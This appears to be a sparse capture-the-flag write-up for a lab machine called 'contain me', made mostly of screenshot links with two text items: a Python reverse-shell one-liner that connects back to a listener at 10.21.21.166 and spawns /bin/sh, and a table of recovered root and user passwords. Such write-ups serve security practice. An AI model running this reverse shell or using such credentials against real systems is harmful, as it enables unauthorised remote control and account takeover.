# contain me 10.201.81.206









python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.21.166",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'















| login | password            |
+-------+---------------------+
| root  | bjsig4868fgjjeog    |
| mike  | WhatAreYouDoingHere 







